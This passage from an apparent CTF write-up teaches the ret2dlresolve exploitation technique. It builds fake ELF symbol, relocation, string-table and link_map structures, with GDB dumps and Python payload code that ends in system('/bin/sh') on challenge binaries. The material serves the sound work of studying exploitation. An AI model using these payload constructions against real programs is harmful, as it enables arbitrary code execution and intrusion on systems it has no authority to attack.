gef➤  # x/3xg <SYMTAB> + (<r_info> >> 32)*24
gef➤  x/3xg 0x4002c0 + (0x0000000100000007 >> 32)*24
0x4002d8:   0x000000120000001a   0x0000000000000000
0x4002e8:   0x0000000000000000
```

So the first 8-byte address will contain 4 variables which are: 

```
st_name = p32(0x1a)  (4 bytes)             0000001a
st_info = p8(12)     (1 byte)            12
st_other = p8(0)     (1 byte)          00
st_shndx = p16(0)    (2 bytes)   0x0000
```

The next two 8-byte address are `st_value = p64(0)` and `st_size = p64(0)`. So we will change the st_name with the fake st_name value above

Next, we will build up the fake structure for Elf64_Rela. This is the structure of it in c code:

```
typedef struct elf64_rela {
    Elf64_Addr r_offset;      /* Location at which to apply the action (8 bytes) */
    Elf64_Xword r_info;       /* index and type of relocation (8 bytes) */
    Elf64_Sxword r_addend;    /* Constant addend used to compute value (8 bytes) */
} Elf64_Rela;
```

We will want to fake r_offset and r_info, the variable `r_addend` will be remain as null byte as the other Elf64_Rela do. We can get value of r_info from symbol_number with this calculation:

```
r_info = (symbol_number << 32) | 0x7
```

And the r_offset can be any writable and controllable place. If you doesn't have any controlled memory, just write the address of any @got to r_offset and the resolved address will go to that @got.

And for the last struct, we will write what everfunction we want such as `system`, `write`, `read`, ect. 

The python code for building the structure can be generally like this:

```
SYMTAB = 0x400290
JMPREL = 0x400300
STRTAB = 0x4002c0

###################
### Get address ###
###################
Elf64_Sym_addr = 0x403e00
symbol_number = (Elf64_Sym_addr - SYMTAB)/24

Elf64_Rela_addr = 0x403e40
reloc_arg = (Elf64_Rela_addr - JMPREL)/24

STRTAB_addr = 0x403e80
st_name = STRTAB_addr - STRTAB

#############################
### Create fake structure ###
#############################
st_name = p32(st_name)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx + st_value + st_size

r_offset = p64(0x403018)
r_info = p64((symbol_number << 32) | 0x7)
r_addend = p64(0)
Elf64_Rela_struct = r_offset + r_info + r_addend

STRTAB_struct = "write\x00\x00\x00"     # Pad to full 8 byte

print(reloc_arg)
```

Those value were got from [TSJ CTF 2022 - bacteria](https://github.com/nhtri2003gmail/CTFNote/tree/master/writeup/2022/TSJ-CTF-2022/bacteria). You can check the `symbol_number`, `reloc_arg` to see that the value is interger after the division and they have to be the integer number. 

Let's assume that we have written all the struct to the stack to the desired address. And with `print(reloc_arg)`, we can check if our struct are in the correct place or not:



So we get the reloc_arg equal to 632, let's check that in GDB:



And we get the correct string `write` with our correct structures. Then we just need to pass the fake reloc_arg to stack and run dlresolver like this:

```
dlresolver = 0x401000

# Set the argument first and then run this to execute function
payload = b'A'*100              # Assume this is pad to rip
payload += p64(dlresolver)      # rip
payload += p64(reloc_arg)       # reloc_arg
payload += p64(start + 7)       # return address

p.send(payload)
```

Then the `write` function will be execute (because our fake STRTAB structure contain the string `write`). One more thing to know is that the resolver will take **a lot of lower stack address** so if you do a stack pivot, just make the rsp at the highest address as possible so that it will not jump out of writable memory when resolve.

Sometimes you can get this way of exploit doesn't work. For example with this challenge:

```
STRTAB = 0x400388
SYMTAB = 0x4002c8 
JMPREL = 0x400490

###################
### Get address ###
###################
Elf64_Sym_Addr = 0x601c40
symbol_number = int((Elf64_Sym_Addr - SYMTAB)/24)

Elf64_Rela_Addr = 0x601c70
reloc_arg = int((Elf64_Rela_Addr - JMPREL)/24)

STRTAB_addr = 0x601c90
st_name = STRTAB_addr - STRTAB

#############################
### Create fake structure ###
#############################
st_name = p32(st_name)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
Elf64_Sym_Struct = st_name + st_info + st_other + st_shndx + st_value + st_size

r_offset = p64(exe.got['fgets'])
r_info = p64((symbol_number << 32) | 0x7)
r_addend = p64(0)
Elf64_Rela_Struct = r_offset + r_info + r_addend

STRTAB_struct = b'system\x00\x00'
```

Can you see the SYMTAB, JMPREL and STRTAB has the address of 0x400xxx while our writable address is 0x601xxx. And because of this, the value of every variable that we fake will be very large. First we check if our structure is correct:



We can see that our structs are in the correct place. But because the writable address is 0x601xxx, higher a lot then the base address, which lead to this:



At that time, rax is a pointer in the VERSYM section and rdx is containing the symbol_number:



That assembly code is related to this c code (The code that I haven't figure out what it is):

```
if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
{
  const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
  ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
  version = &l->l_versions[ndx];
  if (version->hash == 0)
    version = NULL;
}
```

Now we know that the code inside this check cause sigsegv. To get over this, we will try to make the check false by overwriting the `l_info[VERSYMIDX (DT_VERSYM)]` to null and it still works normally. By analizing it in the GDB, we get this code is the check of `if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)`:

```
   ...
   0x7fb020334ea1:   mov    rax,QWORD PTR [r10+0x1c8]    
   # 0x1c8 = 0x40 (l_info offset) + VERSYMIDX(DT_VERSYM) * 0x8
   
   0x7fb020334ea8:   xor    r8d,r8d
   0x7fb020334eab:   test   rax,rax
   # Check if equal to null

   0x7fb020334eae:   je     0x7fb020334edc
   0x7fb020334eb0:   mov    rax,QWORD PTR [rax+0x8]
=> 0x7fb020334eb4:   movzx  eax,WORD PTR [rax+rdx*2]
   0x7fb020334eb8:   and    eax,0x7fff
   ...
```

And I haven't overwritten this to null before so I cannot explain more about this :3. But the idea is that, you can have a look at this [article](https://inaz2.hatenablog.com/entry/2014/07/27/205322) about overwriting this `l->l_info[VERSYMIDX (DT_VERSYM)]` to null.

And that's for the first way to exploit. Let's move on the second way to conduct the `ret2dlresolve`

### Fake link_map

For the second fake, I have already tried to fake the DT_STRTAB by overwriting to the existed link_map. I haven't done when we create a fake link_map, don't use the program's link_map, and make it resolve. I don't know if it's works or not. If you have some article about this, please send me that article and I can add that to here.

Anyway, let's start now! For faking the link_map, we just need to fake the DT_STRTAB of link_map so that it point to our desired string. This is a overview about how link_map and DT_STRTAB look like. First, this is the structure of [link_map](https://code.woboq.org/userspace/glibc/include/link.h.html#link_map):

```
# define DT_STRTAB        5
# define DT_SYMTAB        6
# define DT_JMPREL        23

struct link_map
  {
    ElfW(Addr) l_addr;
    char *l_name;
    ElfW(Dyn) *l_ld;
    struct link_map *l_next, *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    ElfW(Dyn) *l_info[77];
    ...
```

We just need up to l_info and that's enough. This is the view of those variable in GDB:

```
gef➤  # 0x400530 <memset@plt>
gef➤  x/3i 0x400530
   0x400530 <memset@plt>:       jmp    QWORD PTR [rip+0x200aea]        # 0x601020 <memset@got.plt>
   0x400536 <memset@plt+6>:     push   0x1                             # reloc_arg
   0x40053b <memset@plt+11>:    jmp    0x400510                        # dlresolver

gef➤  # x/2i (dlresolver)
gef➤  x/2i 0x400510
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008 (pointer of link_map)
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010 (pointer of _dl_runtime_resolve_xsavec)

gef➤  # x/xg (pointer of link_map)
gef➤  x/xg 0x601008
0x601008:   0x00007ffff7ffe180

gef➤  # x/32xg (link_map)
gef➤  x/16xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720    <-- l_addr              l_name
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730    <-- l_ld                l_next
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180    <-- l_prev              l_real
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708    <-- l_ns                l_libname
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info[0]           l_info[1]
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0    <-- l_info[2]           l_info[3]
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[4]           l_info[DT_STRTAB]
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30    <-- l_info[DT_SYMTAB]   l_info[7]
```

So our goal is to change the value at DT_STRTAB index (change `0x0000000000600ea0` to desired address). The other variable before l_info[DT_STRTAB] we can set it to null. Because `_dl_fixup` will just use `l_addr` and `l_info` to resolve but we can see that `l_addr` is already null. That mean's we just write null byte address until `l_info[DT_STRTAB]`. 

And the structure of `l_info[DT_STRTAB]` in GDB look like this:

```
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:   0x0000000000000005   0x0000000000400380    <-- DT_STRTAB    STRTAB
```

So we will create a fake structure of `l_info[DT_STRTAB]` and fake the STRTAB address too. This requires us to know about the address where we place the structure in. I will take the example of [DiceCTF 2022 - dataeater](https://github.com/nhtri2003gmail/writeup-ctf.dicega.ng-dataeater). 

First, we will construct the fake `l_info[DT_STRTAB]` with a global variable:

```
buf_addr = 0x601080                    # global variable address

DT_STRTAB_addr = buf_addr + 8
DT_STRTAB_struct = p64(5)
DT_STRTAB_struct += p64(0xdeadbeef)    # Unknown address, temporary
```

Now we intent to create the fake STRTAB structure, but first, we need the `st_name` (in Elf64_Sym) of the function we are faking (the memset function because after scanf@plt is memset@plt):

```
gef➤  # x/3i memset@plt
gef➤  x/3i 0x400530
   0x400530 <memset@plt>:  jmp    QWORD PTR [rip+0x200aea]        # 0x601020 <memset@got.plt>
   0x400536 <memset@plt+6>:   push   0x1                          # reloc_arg
   0x40053b <memset@plt+11>:  jmp    0x400510                     # dlresolver

gef➤  # x/3xg <JMPREL> + <reloc_arg> * 24
gef➤  x/3xg 0x400498 + 1 * 24
0x4004b0:   0x0000000000601020   0x0000000200000007
0x4004c0:   0x0000000000000000

gef➤  # x/3xg <SYMTAB> + <symbol_number> * 24
gef➤  x/3xg 0x4002c0 + (0x0000000200000007 >> 32) * 24
0x4002f0:   0x0000001200000037   0x0000000000000000
0x400300:   0x0000000000000000
```

So the `st_name` value is 0x37. So when we write the address of STRTAB in to DT_STRTAB structure, we just simply subtract the address contains the string of function name with 0x37 and that's all.

So we will write the string of function we want to execute after the structure of DT_STRTAB, and at the origin STRTAB address, we replace with the address, which contain the string, subtract with 0x37. So our payload would look like this:

```
buf_addr = 0x601080                    # global variable address

DT_STRTAB_addr = buf_addr + 0x8
DT_STRTAB_struct = p64(0x5)
DT_STRTAB_struct += p64(buf_addr + 0x18 - 0x37)    # STRTAB_addr - st_name

STRTAB_addr = buf_addr + 0x18
STRTAB_struct = b'system\x00\x00'
```

We can see that after input to `buf` variable, it then memset@plt with `buf` again. And what we are doing is to fake memset() to system(), so we need the string `/bin/sh` in the `buf` at the begining so when it resolved, it will execute system("/bin/sh\x00").

So our `buf_data` will be as follows:

```
buf_data = b'/bin/sh\x00'
buf_data += DT_STRTAB_struct
buf_data += STRTAB_struct
```

And now we will construct the structure for `link_map`. We know the structure of link_map is as above so our fake link_map will be like this:

```
DT_SYMTAB = 0x600eb0

link_map_struct = p64(0)                   # l_addr
link_map_struct += p64(0)                  # l_name
link_map_struct += p64(0)                  # l_ld
link_map_struct += p64(0)                  # l_next
link_map_struct += p64(0)                  # l_prev
link_map_struct += p64(0)                  # l_real
link_map_struct += p64(0)                  # l_ns
link_map_struct += p64(0)                  # l_libname
link_map_struct += p64(0)                  # l_info[0]
link_map_struct += p64(0)                  # l_info[1]
link_map_struct += p64(0)                  # l_info[2]
link_map_struct += p64(0)                  # l_info[3]
link_map_struct += p64(0)                  # l_info[4]
link_map_struct += p64(DT_STRTAB_addr)     # l_info[DT_STRTAB]
link_map_struct += p64(DT_SYMTAB)          # l_info[DT_SYMTAB]
```

The reason why I added origin DT_SYMTAB is because after scanf, it automatically add null byte to the end of string. Therefore overwrite `l_info[DT_SYMTAB]` and will cause error. So we just simply write the value of `l_info[DT_SYMTAB]` back and we've done.

That's all I know for this technique. Hope you guys can learn new things and if you have any comments, just let me know. Enjoy ♥️